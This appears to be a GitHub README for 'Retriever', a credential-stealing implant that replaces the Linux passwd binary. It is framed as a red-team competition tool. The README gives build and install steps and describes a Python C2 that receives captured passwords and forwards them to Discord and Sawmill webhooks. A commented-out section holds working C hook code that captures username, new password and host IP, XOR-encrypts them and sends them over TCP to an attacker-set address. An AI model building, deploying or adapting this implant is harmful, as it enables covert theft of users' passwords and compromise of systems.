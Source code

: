 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8+ <br />Debian - 11+ <br />Arch - ???  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

## Build Instructions
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc
#### Distro Examples
##### Ubuntu
	apt install -y git make autoconf autopoint libtool xsltproc
##### RHEL Based
	yum install -y git make autoconf gettext-devel libtool libxslt
##### Arch
	pacman -Syu --noconfirm git make autoconf gettext libtool libxslt
##### Alpine
	apk add git make autoconf gettext-dev libtool libxslt
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions :
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>

## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py

<!---
## Hooking the passwd.c File Manually

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface - CHANGE INTERFACE*/
		strncpy(ifr.ifr_name, ens33, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message - CHANGE KEY*/
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , mes_length, 0);	
		return 0;

	}
--->